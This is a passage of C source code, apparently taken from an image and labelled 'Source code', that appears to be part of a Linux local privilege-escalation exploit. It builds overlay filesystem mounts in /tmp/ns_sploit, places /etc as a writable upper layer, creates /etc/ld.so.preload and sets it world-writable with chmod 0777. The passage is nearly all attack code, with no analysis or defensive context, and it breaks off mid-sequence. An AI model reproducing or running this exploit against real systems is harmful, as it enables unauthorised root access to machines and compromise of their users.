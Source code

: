 ```c

{

char *file;

system("rm -rf /tmp/ns_sploit");

mkdir("/tmp/ns_sploit", 0777);

mkdir("/tmp/ns_sploit/work", 0777);

mkdir("/tmp/ns_sploit/upper",0777);

mkdir("/tmp/ns_sploit/o",0777);

fprintf(stderr,"mount #1\n");

if (mount("overlay", "/tmp/ns_sploit/o", "overlayfs", MS_MGC_VAL, "lowerdir=/proc/sys/kernel,upperdir=/tmp/ns_sploit/upper") != 0) {

// workdir= and "overlay" is needed on newer kernels, also can't use /proc as lower

if (mount("overlay", "/tmp/ns_sploit/o", "overlay", MS_MGC_VAL, "lowerdir=/sys/kernel/security/apparmor,upperdir=/tmp/ns_sploit/upper,workdir=/tmp/ns_sploit/work") != 0) {

fprintf(stderr, "no FS_USERNS_MOUNT for overlayfs on this kernel\n");

exit(-1);

}

file = ".access";

chmod("/tmp/ns_sploit/work/work",0777);

} else file = "ns_last_pid";

chdir("/tmp/ns_sploit/o");

rename(file,"ld.so.preload");

chdir("/");

umount("/tmp/ns_sploit/o");

fprintf(stderr,"mount #2\n");

if (mount("overlay", "/tmp/ns_sploit/o", "overlayfs", MS_MGC_VAL, "lowerdir=/tmp/ns_sploit/upper,upperdir=/etc") != 0) {

if (mount("overlay", "/tmp/ns_sploit/o", "overlay", MS_MGC_VAL, "lowerdir=/tmp/ns_sploit/upper,upperdir=/etc,workdir=/tmp/ns_sploit/work") != 0) {

exit(-1);

}

chmod("/tmp/ns_sploit/work/work",0777);

}

chmod("/tmp/ns_sploit/o/ld.so.preload",0777);

```